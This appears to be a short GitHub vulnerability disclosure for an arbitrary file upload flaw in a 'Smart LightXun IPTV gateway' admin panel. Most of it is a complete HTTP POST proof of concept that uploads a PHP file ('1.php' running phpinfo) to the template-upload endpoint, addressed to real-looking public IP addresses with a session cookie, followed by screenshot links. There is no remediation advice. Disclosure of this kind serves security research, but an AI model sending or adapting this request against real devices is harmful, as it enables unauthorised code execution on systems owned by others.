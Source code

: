There is a file upload vulnerability in Smart LightXun IPTV gateway

1. The login interface is as shown in the figure
![image](https://github.com/willchen0011/cve/assets/13689053/4fe3cfc9-9e83-4320-be4e-882442fab3b6)

2. After logging into the system, capture the packet and construct the POC
```
POST /ZHGXTV/index.php/admin/index/web_upload_template.html HTTP/1.1
Host: 171.124.45.157:888
Content-Length: 893
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZzN3aF71HnOAXhI3
Accept: */*
Origin: http://118.77.61.149:888
Referer: http://118.77.61.149:888/ZHGXTV/index.php/admin/index/upload_templates.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k9858i4ie8r50o8mhil3p9gklt
Connection: close

------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="folder"

upload_template
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="name"

1.php
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="type"

application/octet-stream
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 12 2023 10:10:53 GMT+0800 (中国标准时间)
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="size"
21
------WebKitFormBoundaryZzN3aF71HnOAXhI3
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream
<?php phpinfo();?>
------WebKitFormBoundaryZzN3aF71HnOAXhI3--
```
![image](https://github.com/willchen0011/cve/assets/13689053/aac53633-b431-4a9a-a907-72de3140067f)

![image](https://github.com/willchen0011/cve/assets/13689053/3005d8d7-d34c-4b0e-9270-10bb99314457)
